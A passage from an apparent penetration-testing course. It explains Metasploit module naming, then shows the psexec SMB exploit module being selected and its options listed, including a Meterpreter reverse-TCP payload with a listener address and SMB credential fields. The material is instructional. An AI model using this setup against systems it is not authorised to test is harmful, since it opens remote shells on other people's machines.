 | Output     | Meaning                                                                                                                                                                       |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `56`       | The number assigned to the module in the table within the context of the search. This number makes it easier to select. We can use the command `use 56` to select the module. |
| `exploit/` | This defines the type of module. In this case, this is an exploit module. Many exploit modules in MSF include the payload that attempts to establish a shell session.         |
| `windows/` | This defines the platform we are targeting. In this case, we know the target is Windows, so the exploit and payload will be for Windows.                                      |
| `smb/`     | This defines the service for which the payload in the module is written.                                                                                                      |
| `psexec`   | This defines the tool that will get uploaded to the target system if it is vulnerable.                                                                                        |
**Option Selection**
```shell-session
msf6 > use 56

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) >
```
- Notice how the module is within the parentheses, that means that we have a module selected. 

```shell-session
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo
                                                    lder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
- Each module has options for you, the user, have to fill in order to get the intended output. 
